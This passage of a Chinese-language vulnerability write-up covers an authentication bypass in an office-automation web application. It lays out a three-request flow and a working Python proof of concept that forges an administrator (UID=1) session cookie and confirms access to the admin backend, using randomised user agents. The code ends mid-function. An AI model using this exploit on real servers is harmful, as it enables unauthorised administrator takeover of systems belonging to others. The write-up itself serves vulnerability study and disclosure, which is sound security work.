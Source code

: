 * 切换到浏览器，可以看到已经使用系统管理员身份登录了后台
   ![](20201205133237726_1977377901.png)

## 4. 漏洞原理

POC的主要流程:
1. 首先会发送一条GET请求到/general/login_code.php，在其响应包中获取到其中的一串codeuid
2. 发送一条POST请求到/logincheck_code.php，在其请求体中添加上一步获取到的codeuid以及uid=1，这里uid=1代表的是管理员权限，发送成功后会在其响应包中获取Cookie值，经过测试，使用app扫描登录时可以捕获到这条包
3. 最后发送一条GET请求到/general/index.php，Cookie修改为上一步获取到的cookie值，然后就可以成功伪造身份并以管理员身份进入后台
POC核心代码如下：
```python

USER_AGENTS = [
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    ...
]

headers={}

def getV11Session(url):
    checkUrl = url+'/general/login_code.php' 
    try:
        headers["User-Agent"] = choice(USER_AGENTS) #随机挑选列表中的UserAgent
        res = requests.get(checkUrl,headers=headers) #通过组合checkUrl和UserAgent，发起一个get请求
        resText = str(res.text).split('{') #分解请求的返回包，以{为界限
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '') #获取返回包中的一串codeuid
        getSessUrl = url+'/logincheck_code.php'
        #通过得到的的codeuid和uid，发送一个post请求到logincheck_code.php
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']#该POST请求返回了设置cookie的请求
        headers["User-Agent"] = choice(USER_AGENTS) #重新选择一个UserAgent
        headers["Cookie"] = tmp_cookie #设置新的cookie
        #最后通过拼接UserAgent以及Cookie发送一个get请求到general/index.php
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:# 返回包如果不包含“用户未登录”这样的字眼表示登录成功
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
```